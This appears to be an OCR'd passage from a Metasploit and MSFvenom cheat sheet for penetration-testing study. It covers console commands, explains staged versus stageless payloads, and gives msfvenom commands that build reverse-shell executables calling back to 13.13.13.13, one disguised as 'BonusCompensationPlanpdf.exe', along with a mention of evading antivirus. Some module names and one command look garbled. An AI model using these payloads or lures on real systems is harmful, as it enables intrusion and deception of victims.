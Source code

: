 - **Get more info about module**
```bash
info
```

- **MSF - Permanent Target Specification**
```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

- **Show and Set Target for exploit**
```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

- **Searching for Specific Payload**
```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

- **Use Local Exploit Suggester**
```bash
msf6 > search local exploit suggester
```
## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.
- **List Payloads**
```bash
msfvenom -l payloads
```
- **Building a Stageless Payload for Linux**
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```
- **Building a Stageless Payload for Windows**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads
**`Staged` payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

**`Stageless` payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter
